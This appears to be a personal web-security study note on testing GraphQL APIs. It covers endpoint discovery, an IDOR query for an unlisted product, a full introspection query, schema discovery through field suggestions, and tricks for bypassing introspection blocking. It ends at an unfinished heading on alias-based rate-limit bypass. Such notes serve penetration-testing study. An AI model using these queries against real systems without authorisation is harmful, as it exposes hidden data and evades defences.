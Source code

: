 # Test for graphql endpoints
Universal query
```graphql
query{__typename}
```
always returns
```json
{"data": {"__typename": "query"}}
```

Common endpoint names:
* /graphql
* /api
* /api/graphql
* /graphql/api
* /graphql/graphql
If these common endpoints don't return a GraphQL response, you could also try appending /v1 to the path. 

request methods
Common is `POST` with `application/json`, but it can variate.

#  Exploiting unsanitized arguments
For example:
```graphql
query {
	products {
		id
		name
		listed
	}
}
```
   returns
```graphql
    {
        "data": {
            "products": [
                {
                    "id": 1,
					...
                },
                {
                    "id": 2,
					...
                },
                {
                    "id": 4,
					...
                }
            ]
        }
    }
```        
so we can try to access the third product: [[IDOR]]
```graphql
query {
	product(id: 3) {
		id
		name
		listed
	}
}
```    
#  Discovering schema information
### Introspection 
###### Burp Suite:
`GraphQL > Set introspection query`
##### Request example
```graphql
{
	"query": "{__schema{queryType{name}}}"
}
```
returns list of available query names
###### Full introspection query:
```graphql
query IntrospectionQuery {
	__schema {
            queryType {
                name
            }
            mutationType {
                name
            }
            subscriptionType {
                name
            }
            types {
             ...FullType
            }
            directives {
                name
                description
                args {
                    ...InputValue
            }
            onOperation  #Often needs to be deleted to run query
            onFragment   #Often needs to be deleted to run query
            onField      #Often needs to be deleted to run query
            }
        }
    }

    fragment FullType on __Type {
        kind
        name
        description
        fields(includeDeprecated: true) {
            name
            description
            args {
                ...InputValue
            }
            type {
                ...TypeRef
            }
            isDeprecated
            deprecationReason
        }
        inputFields {
            ...InputValue
        }
        interfaces {
            ...TypeRef
        }
        enumValues(includeDeprecated: true) {
            name
            description
            isDeprecated
            deprecationReason
        }
        possibleTypes {
            ...TypeRef
        }
    }

    fragment InputValue on __InputValue {
        name
        description
        type {
            ...TypeRef
        }
        defaultValue
    }

    fragment TypeRef on __Type {
        kind
        name
        ofType {
            kind
            name
            ofType {
                kind
                name
                ofType {
                    kind
                    name
                }
            }
        }
    }
```
######  Visualizing introspection results 
 http://nathanrandal.com/graphql-visualizer/
### Suggestions
Used when instrospection is disabled.
Suggestions are messages like this:
`There is no entry for 'productInfo'. Did you mean 'productInformation' instead?`
Can be automated with https://github.com/nikitastupin/clairvoyance or Burp scanner.

###  Bypassing GraphQL introspection defenses 
`__schema` can be disabled using regex by developers.
```graphql
{
	"query": "query{__schema
	{queryType{name}}}"
}
```
Also try a `GET` request, or a `POST` request with a content-type of `x-www-form-urlencoded`.

#  Bypassing rate limiting using aliases 